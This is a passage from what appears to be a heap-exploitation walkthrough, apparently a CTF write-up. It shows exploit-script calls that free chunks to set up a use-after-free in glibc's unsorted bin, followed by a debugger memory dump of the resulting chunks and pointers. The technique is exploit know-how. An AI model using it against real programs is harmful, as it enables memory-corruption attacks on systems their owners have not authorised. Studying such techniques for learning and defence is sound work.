 ```python
    free(i)

```

Next, let's create two `unsorted chunk` entries by `freeing` the chunks we just made:
```python
#########################################################
#           Create the UAF setup for later              #
#########################################################
free(a1)
free(b1)
free(c1)

free(a2)
free(b2)
free(c2)
```

This will look like the following in memory (disregarding the `t-cache fillings`):
```
0x55ee5ca96a40	0x0000000000000000	0x0000000000000021	........!.......
0x55ee5ca96a50	0x0031204452415547	0x0000000000000000	GUARD 1.........
0x55ee5ca96a60	0x0000000000000000	0x00000000000001b1	................ <-- unsortedbin[all][1]
0x55ee5ca96a70	0x00007f0638ffed00	0x000055ee5ca96cc0	...8.....l.\.U..
0x55ee5ca96a80	0x3141314131413141	0x3141314131413141	A1A1A1A1A1A1A1A1
0x55ee5ca96a90	0x3141314131413141	0x3141314131413141	A1A1A1A1A1A1A1A1
0x55ee5ca96aa0	0x3141314131413141	0x3141314131413141	A1A1A1A1A1A1A1A1
0x55ee5ca96ab0	0x3141314131413141	0x3141314131413141	A1A1A1A1A1A1A1A1
0x55ee5ca96ac0	0x3141314131413141	0x3141314131413141	A1A1A1A1A1A1A1A1
0x55ee5ca96ad0	0x3141314131413141	0x3141314131413141	A1A1A1A1A1A1A1A1
0x55ee5ca96ae0	0x3141314131413141	0x3141314131413141	A1A1A1A1A1A1A1A1
0x55ee5ca96af0	0x0000000000000090	0x0000000000000090	................
0x55ee5ca96b00	0x3142314231423142	0x3142314231423142	B1B1B1B1B1B1B1B1
0x55ee5ca96b10	0x3142314231423142	0x3142314231423142	B1B1B1B1B1B1B1B1
0x55ee5ca96b20	0x3142314231423142	0x3142314231423142	B1B1B1B1B1B1B1B1
0x55ee5ca96b30	0x3142314231423142	0x3142314231423142	B1B1B1B1B1B1B1B1
0x55ee5ca96b40	0x3142314231423142	0x3142314231423142	B1B1B1B1B1B1B1B1
0x55ee5ca96b50	0x3142314231423142	0x3142314231423142	B1B1B1B1B1B1B1B1
0x55ee5ca96b60	0x3142314231423142	0x3142314231423142	B1B1B1B1B1B1B1B1
0x55ee5ca96b70	0x3142314231423142	0x3142314231423142	B1B1B1B1B1B1B1B1
0x55ee5ca96b80	0x0000000000000120	0x0000000000000090	 ...............
0x55ee5ca96b90	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
0x55ee5ca96ba0	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
0x55ee5ca96bb0	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
0x55ee5ca96bc0	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
0x55ee5ca96bd0	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
0x55ee5ca96be0	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
0x55ee5ca96bf0	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
0x55ee5ca96c00	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1
0x55ee5ca96c10	0x00000000000001b0	0x0000000000000090	................
0x55ee5ca96c20	0x3144314431443144	0x3144314431443144	D1D1D1D1D1D1D1D1
0x55ee5ca96c30	0x3144314431443144	0x3144314431443144	D1D1D1D1D1D1D1D1
0x55ee5ca96c40	0x3144314431443144	0x3144314431443144	D1D1D1D1D1D1D1D1
0x55ee5ca96c50	0x3144314431443144	0x3144314431443144	D1D1D1D1D1D1D1D1
0x55ee5ca96c60	0x3144314431443144	0x3144314431443144	D1D1D1D1D1D1D1D1
0x55ee5ca96c70	0x3144314431443144	0x3144314431443144	D1D1D1D1D1D1D1D1
0x55ee5ca96c80	0x3144314431443144	0x3144314431443144	D1D1D1D1D1D1D1D1
0x55ee5ca96c90	0x3144314431443144	0x3144314431443144	D1D1D1D1D1D1D1D1
0x55ee5ca96ca0	0x3144314431443144	0x0000000000000021	D1D1D1D1!.......
0x55ee5ca96cb0	0x0032204452415547	0x0000000000000000	GUARD 2.........
0x55ee5ca96cc0	0x0000000000000000	0x00000000000001b1	................ <-- unsortedbin[all][0]
0x55ee5ca96cd0	0x000055ee5ca96a60	0x00007f0638ffed00	`j.\.U.....8....
0x55ee5ca96ce0	0x3241324132413241	0x3241324132413241	A2A2A2A2A2A2A2A2
0x55ee5ca96cf0	0x3241324132413241	0x3241324132413241	A2A2A2A2A2A2A2A2
```
